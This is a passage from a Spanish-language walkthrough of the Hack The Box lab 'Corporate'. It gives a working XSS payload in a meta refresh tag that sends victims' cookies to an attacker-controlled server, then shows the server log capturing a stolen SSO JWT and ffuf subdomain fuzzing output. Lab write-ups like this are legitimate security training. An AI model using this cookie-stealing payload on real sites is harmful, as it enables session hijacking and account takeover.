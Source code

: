 Ahora, necesitamos algo para redirigir al usuario que mira nuestros mensajes a este lugar. Esto puede hacerse fácilmente con HTML y sus etiquetas `<meta>`. Hagamos una url para sacarle sus cookies por ejemplo:

```html
<meta http-equiv="refresh" content='0; url=http://corporate.htb/init</script><script src="/vendor/analytics.min.js"></script><script src="/assets/js/analytics.min.js?v=1));setTimeout(function(){window.location=`http://<yourserver:port>/?${document.cookie}`},3000);//"></script><style>'>
```

Al colocar esto en nuestro ticket, seremos redirigidos también a nuestra página, pero viendo las peticiones del servidor

```bash
❯ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.14.219 - - [08/Jul/2024 16:46:40] "GET /? HTTP/1.1" 200 -
10.10.14.219 - - [08/Jul/2024 16:46:40] code 404, message File not found
10.10.14.219 - - [08/Jul/2024 16:46:40] "GET /favicon.ico HTTP/1.1" 404 -
10.10.14.219 - - [08/Jul/2024 16:48:06] "GET /? HTTP/1.1" 200 -
10.10.11.246 - - [08/Jul/2024 16:48:06] "GET /?CorporateSSO=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6NTA3MiwibmFtZSI6IkNhbmRpZG8iLCJzdXJuYW1lIjoiSGFja2V0dCIsImVtYWlsIjoiQ2FuZGlkby5IYWNrZXR0QGNvcnBvcmF0ZS5odGIiLCJyb2xlcyI6WyJzYWxlcyJdLCJyZXF1aXJlQ3VycmVudFBhc3N3b3JkIjp0cnVlLCJpYXQiOjE3MjA0NzE2NzcsImV4cCI6MTcyMDU1ODA3N30.VD7q3xFRfyKTmJXAOaaIWL56iJJt87R3DiBZXs1Wkl8 HTTP/1.1" 200 -
```

Pues bien, tenemos una cookie ahora.

Okay pero, ¿y en qué lugar puedo usar esta cookie? Fuzzeando por subdominios, encontramos cosas interesantes:

```bash
❯ ffuf -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://10.10.11.246/ -mc all -fs 175 -H "Host: FUZZ.corporate.
htb"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.11.246/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.corporate.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 175
________________________________________________

git                     [Status: 403, Size: 159, Words: 3, Lines: 8, Duration: 151ms]
support                 [Status: 200, Size: 1725, Words: 383, Lines: 39, Duration: 293ms]
sso                     [Status: 302, Size: 38, Words: 4, Lines: 1, Duration: 163ms]
people                  [Status: 302, Size: 32, Words: 4, Lines: 1, Duration: 247ms]12
```
